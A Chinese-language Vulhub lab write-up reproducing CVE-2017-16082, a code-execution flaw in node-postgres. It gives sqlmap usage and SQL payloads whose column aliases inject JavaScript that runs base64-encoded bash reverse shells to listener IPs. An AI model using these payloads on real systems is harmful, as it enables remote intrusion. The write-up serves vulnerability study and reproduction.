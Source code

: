 # node-postgres 代码执行漏洞 CVE-2017-16082

## 漏洞描述

node-postgres在处理类型为`Row Description`的postgres返回包时，将字段名拼接到代码中。由于没有进行合理转义，导致一个特殊构造的字段名可逃逸出代码单引号限制，造成代码执行漏洞。

参考链接：

- https://www.leavesongs.com/PENETRATION/node-postgres-code-execution-vulnerability.html
- https://node-postgres.com/announcements#2017-08-12-code-execution-vulnerability
- https://zhuanlan.zhihu.com/p/28575189

## 环境搭建

Vulhub编译及运行环境：

```
docker-compose build
docker-compose up -d
```

## 漏洞复现

成功运行后，访问`http://your-ip:3000/?id=1`即可查看到id为1的用户信息。

![image-20220228110115261](images/202202281101307.png)

用sqlmap即可发现此处存在注入点，且数据库为postgres：

```
python sqlmap.py -u http://your-ip:3000/?id=1 --dbs
```

![image-20220228110250087](images/202202281102191.png)

那么，我们就可以猜测这里存在node-postgres的代码执行漏洞。编写我想执行的命令`echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTkuMC4xLzIxIDA+JjE=|base64 -d|bash`，然后适当分割（每段长度不超过64字符）后替换在如下payload中：

```
SELECT 1 AS "\']=0;require=process.mainModule.constructor._load;/*", 2 AS "*/p=require(`child_process`);/*", 3 AS "*/p.exec(`echo YmFzaCAtaSA+JiAvZGV2L3R`+/*", 4 AS "*/`jcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo= |base64 -d|bash`)//"

SELECT 1 AS "\']=0;require=process.mainModule.constructor._load;/*", 2 AS "*/p=require(`child_process`);/*", 3 AS "*/p.exec(`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvd`+/*", 4 AS "*/`GNwLzEwMS40Mi4yMzcuNjEvMjMzMyAwPiYx |base64 -d|bash`)//"
```

将上述payload编码后发送：

![image-20220228111130445](images/202202281111534.png)

成功执行命令，如反弹shell：

![image-20220228111037961](images/202202281110043.png)

因为复现过程中坑比较多，payload生成与测试过程中如果出现错误，还请多多阅读[P师傅的这篇文章](https://www.leavesongs.com/PENETRATION/node-postgres-code-execution-vulnerability.html)，从原理上找到问题所在。

